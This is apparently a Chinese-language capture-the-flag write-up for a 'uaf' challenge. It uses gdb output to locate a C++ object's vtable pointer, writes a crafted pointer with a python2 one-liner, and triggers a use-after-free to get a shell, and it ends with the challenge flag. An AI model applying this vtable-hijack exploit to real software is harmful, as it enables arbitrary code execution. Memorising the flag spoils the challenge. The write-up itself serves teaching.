 這時候 Man::Man() 尚未被呼叫，根據 x86_64 calling convention, 物件的第一個參數會被擺在 rdi

這邊第一個參數就是 `m` 的 address。由以下結果，我們可得知 **m 的記憶體位址：0x666c50**
```
(gdb) p/x $rdi
$1 = 0x666c50
```

接下來執行 Man::Man() ，讓 constructor 把 m 的 vtable 設定進去
```
(gdb) ni
0x0000000000400f18 in main ()
```

再看一下 m (0x666c50) 的內容，得知 **m 的 __vfptr value 是：0x00401570**
```
(gdb) x/6x 0x666c50
0x666c50:       0x00401570 (__vfptr)  0x00000000     0x00000019 (age)     0x00000000
0x666c60:       0x00666c38 (name)     0x00000000
```

我們說 __vfptr 會指向 Man 的第一個 virtual function，也就是 Human::give_shell()

第二個 virtual function 是 Man::introduce()，因爲在 `Man::introduce()` overrides `Human::introduce()`
```
(gdb) x/2a 0x00401570
0x401570 <_ZTV3Man+16>: 0x40117a <_ZN5Human10give_shellEv>      0x4012d2 <_ZN3Man9introduceEv>
```

所以 m->introduce() 在執行的時候，實際上是呼叫了 m 的 __vfptr+8 的 function。

我們可以試着篡改 __vfptr 的值，讓 m->introduce() 呼叫 m->give_shell()

這邊只要讓 __vfptr 的值爲 __vfptr-8 = 0x0000000000401568 就可以了，並寫入檔案。
```
$ python2 -c 'print "\x68\x15\x40\x00\x00\x00\x00\x00"' > /tmp/aesophor_uaf/vt
```

執行程式，分配 24 bytes 的資料（和 m 的大小一樣）並將 0x0000000000401568 讀入我們剛剛重新分配的空間
```
uaf@prowl:~$ ./uaf 24 /tmp/aesophor_uaf/vt
1. use
2. after
3. free
3
1. use
2. after
3. free
2
your data is allocated
1. use
2. after
3. free
2
your data is allocated
1. use
2. after
3. free
1
$ 
```

`3 2 2 1` 就可以取得shell。

這邊執行兩次2的原因在於：先 delete m 然後才 delete w。
* 第一次選擇2的時候，資料會讀進 w 的區域
* 第二次選擇2的時候，資料會讀進 m 的區域

flag: `yay_f1ag_aft3r_pwning`
